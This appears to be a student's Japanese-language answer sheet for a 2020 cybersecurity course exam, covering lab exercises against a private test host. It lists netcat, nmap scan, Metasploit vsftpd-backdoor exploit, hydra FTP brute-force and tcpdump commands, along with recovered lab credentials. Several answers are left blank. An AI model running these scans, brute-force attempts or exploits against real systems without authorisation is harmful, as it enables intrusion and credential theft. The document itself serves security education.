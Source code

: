 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
#　ここに回答を記述
 nc -lv 5555


```
### クライアント側コマンド

```sh
#　
nc 192.168.33.5

```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
- omas:
- omas2:foobar

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
 nmap -sP 192.168.33.0/25
```

### 2. version scan

```sh
 nmap -sV -O -p- 192.168.33.5
```

## 問4 [Metasploit Framework]

```sh
#  ここに回答を記述
use exploit.unix/ftp/vsftpd_234_backdoor
show options 
set RHOSTS 192.168.33.5
run
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述
 hydra -L user.list -P passwd.list 192.168.33.5 ftp
```

### 2. 解析結果

```sh
# ここに回答を記述
login: msfadmin password: msfadmin
```

## 問6 [Packet Sniffer]

```sh
#　ここに回答を記述 
tcpdump host 192.168.33.5 and port 80

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->
14207
```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
70
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
仮想環境の構築
パスワードクラック

```
